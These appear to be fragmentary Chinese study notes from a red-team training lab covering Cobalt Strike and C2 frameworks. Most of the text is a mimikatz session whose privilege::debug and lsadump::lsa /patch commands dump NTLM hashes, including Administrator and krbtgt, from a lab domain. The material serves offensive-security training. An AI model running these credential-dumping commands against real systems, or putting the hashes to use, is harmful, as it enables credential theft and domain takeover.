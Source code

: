 # 命令与控制

1. 什么是c2？
> Command & Control, often abbreviated to C2 or C&C, is the means by which an adversary can perform actions within a compromised environment.

2. c2框架有哪些？
>  Cobalt Strike, SCYTHE, Covenant, PoshC2, Faction, Koadic, Mythic and the Metasploit Framework

3. lab地址
> https://dashboard.snaplabs.io/events/p

4. 请求延期lab页面
> https://www.zeropointsecurity.co.uk/contact

5. 购买lab时间页面
> https://www.zeropointsecurity.co.uk/red-team-ops/lab

6. 启动服务器
参考```Starting the Team Server```这章

7. Listener

8. Payloads

9. 与Beacon交互


7. 命令

- 使用ctrl +和ctrl -增大/减小当前窗口中的字体大小。
- 右键单击X选项卡上的扩展操作，例如重命名和分离到浮动窗口。
- 用于ctrl + k清除当前窗口



dev
```

```
PS C:\Shares\software> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 12 2021 23:10:18
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::sam
Domain : DC-2
SysKey : fc72de46b110e6f12aa3d96db26932dc
ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)

mimikatz # lsadump::lsa /patch
Domain : DEV / S-1-5-21-3263068140-2042698922-2891547269

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : aa93e8df34aca6154cb2f5ab9f9e8338

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 833ef1dcc490f88a8f4a8a00859736de

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :

RID  : 00000458 (1112)
User : nlamb
LM   :
NTLM : 2e8a408a8aec852ef2e458b938b8c071

RID  : 00000460 (1120)
User : bfarmer
LM   :
NTLM : 4ea24377a53e67e78b2bd853974420fc

RID  : 00000461 (1121)
User : jadams
LM   :
NTLM : 126502da14a98b58f2c319b81b3a49cb

RID  : 00000462 (1122)
User : jking
LM   :
NTLM : 4ffd3eabdce2e158d923ddec72de979e

RID  : 00000467 (1127)
User : svc_oracle
LM   :
NTLM : fc525c9683e8fe067095ba2ddc971889

RID  : 0000046e (1134)
User : svc_mssql
LM   :
NTLM : ac548f25225b5e0974a79a59fc27fc2c

RID  : 00000471 (1137)
User : svc_honey
LM   :
NTLM : 5710c2241f5c0b6cc6e26a2b79e8a725

RID  : 00000472 (1138)
User : svc_squid
LM   :
NTLM : fc525c9683e8fe067095ba2ddc971889

RID  : 000003f0 (1008)
User : DC-2$
LM   :
NTLM : 23ed7bfb48cc9d92cf8c64cfc7c3b7a1

RID  : 00000459 (1113)
User : WKSTN-1$
LM   :
NTLM : 481fb07b7020985da2ce5b28b571ef98

RID  : 0000045a (1114)
User : WKSTN-2$
LM   :
NTLM : d89c7ae3e65447e859dff0daf875c921

RID  : 0000045b (1115)
User : SRV-1$
LM   :
NTLM : 7c3398f737cfef81682176be252d7fce

RID  : 0000045d (1117)
User : SRV-2$
LM   :
NTLM : f797a8372d1e7a821e49f61efca73e23

RID  : 00000469 (1129)
User : NIX-1$
LM   :
NTLM : 1026edefeb9dd6d939a825c908a79785

RID  : 00000457 (1111)
User : CYBER$
LM   :
NTLM : 256e02a6d4f03d791db0bb16e8a5a30a

RID  : 0000045c (1116)
User : SUBSIDIARY$
LM   :
NTLM : a415295cf2bfd3d70c0e9d881c21b074

mimikatz #

```
```